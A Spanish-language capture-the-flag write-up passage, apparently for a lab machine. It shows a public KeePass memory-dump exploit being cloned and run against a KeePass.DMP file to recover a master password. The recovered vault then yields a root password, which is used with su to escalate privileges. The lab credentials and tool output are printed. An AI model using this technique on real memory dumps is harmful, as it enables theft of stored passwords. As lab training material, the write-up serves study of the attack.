 Tenemos dos archivos:
```bash
KeePass.DMP, Database.kdb
```

Ahora para poder ver el contenido necesitamos un exploit para ello nos descargamos el siguiente exploit
```bash
git clone https://github.com/z-jxy/keepass_dump.git
```

Nos da lo siguiente:
```bash
python3 keepass_dump.py -f KeePass.DMP
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 1:  a
[*] 2:  r
[*] 3:  i
[*] 4:  t
[*] 5:  r
[*] 6:  i
[*] 7:  n
[*] 8:  i
[*] 9:  1
[*] 10: 2
[*] 11: 3
[*] 12: 4
[*] 13: 5
[*] Extracted: {UNKNOWN}aritrini12345
```

Tenemos la contrasena pero el primer caracter falta, asi que lo probaremos manual
Lanzamos keepass para raelizar manualmente
```bash
flatpak run org.keepassxc.KeePassXC Database.kdbx
```

Logramos determinar que la contrasnea es:
```bash
Maritrini12345
```

y la password para root es: 
```bash
Juanikonokukunero
```

```bash
# Comando para escalar al usuario: ( root )
su root # ( Juanikonokukunero )
```

---

## Evidencia de Compromiso
Flago de user:
```bash
ls -la /home/mortadela

-rw-r--r-- 1 mortadela mortadela   20 abr  2  2024 user.txt
```
